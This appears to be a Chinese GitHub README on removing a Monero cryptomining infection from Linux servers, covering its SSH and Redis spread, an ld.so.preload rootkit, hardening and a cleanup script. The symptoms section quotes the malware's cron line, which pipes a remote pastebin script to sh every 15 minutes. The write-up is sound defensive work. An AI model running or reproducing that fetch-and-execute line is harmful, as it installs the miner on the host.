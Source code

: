 ##背景

20190409 晚上阿里云邮件预警提示有服务器不断向其他服务器发送6379，22端口的请求，同时封闭了该服务器的端口，后来阿里云披露出来是门罗币挖矿病毒。 该病毒可以通过免密钥登录的方式无限复制，只要中招服务器有对应的免密钥登录到其他服务器的配置，都会被感染。


##表现


`
[root@dev-us-api ~]# crontab -l
`

*/15 * * * * (curl -fsSL https://pastebin.com/raw/v5XC0BJh||wget -q -O- https://pastebin.com/raw/v5XC0BJh)|sh

crontab中的任务删除过段时间会自动创建（其实后来发现是基于预加载库的拦截，每次执行ls ll 等命令都会刷新这个任务计划，木马会重新写入）
有的服务器top可以看到占用cpu较高的应用有的服务器看不到
ps  看不到对应进程

尝试建立大量的22、6379端口请求


##传播途径：

1. root的免密钥登录（我是这个）
2. 还有一个redis的无密码登录（网上其他有人因为这个中）
3. jenkins 漏洞侵入


##处理流程

我查了很多资料后来找到一个busybox 工具，这个工具可以无依赖的让你使用操作系统常用的命令比如ps ls rm kill netstat 等等。可以用这些命令来查询被隐藏或者你差不到的应用。

1. ###确定请求地址：
 	pastebin.com，所以我在安全组里直接封掉了这个网站的所有请求，或者可以通过本地hosts的方式将这个网址解析为本机等等都可以

2. ###安全加固：
	默认这个病毒是通过22ssh 端口传染，所以ssh服务 的端口不能是默认，需要修改一个其他端口。关闭root登录，修改/etc/ssh/sshd_config 中PermitRootLogin yes 改为no。
	
	redis 尽量不要绑定到0.0.0.0 改为内网ip或者127.0.0.1，同时设置RequirePass 密码


3. ###删除木马
	核心的两个病毒文件（别急着删除，这里需要用busybox 去删除，直接rm 去删除的话，当你执行ls之类的命令，木马会重新被执行）
 	/etc/ld.so.preload 
 	/usr/local/lib/libpamcd.so
 
	其他病毒文件
		rm -f /etc/cron.d/tomcat
		rm -f /etc/cron.d/root
		rm -f /var/spool/cron/
		rm -f /tmp/ld.so.preload* 	
4. ###清理进程

	这里需要busybox，busybox 安装比较麻烦（而且不同的发行版编译的时候会遇到各种问题），我这里直接把命令放在版本库里了，直接git clone ，执行脚本即可。
	脚本我已经整理好了.
	脚本里面包含我遇到的 kerberods和khugepageds 两个木马进程和我其他服务器中招的kthrotlds，剩下的就是其他人遇到的我也整理进来，其他木马 可以通过busybox ps aux 来查看 ，基本从/tmp 启动的进程都是有问题的，所以可以仔细检查，看脚本的执行流程来删除掉就可以了
	
	最后需要重启（手动）。
##使用方法
	`cd /usr/local/src`

	`git clone https://github.com/unixtommy/virus_clean.git`

	`cd virus_clean`

	`sh virus_clean.sh`

	`重启`


附：比较感谢这个朋友，我主要参考了他的做法，而且他的情况跟我类似，也不完全类似，但是差不多了。

[Linux 挖矿病毒 khugepageds的处理](https://www.wangdb.com/archives/1599.html)
https://www.wangdb.com/archives/1599.html
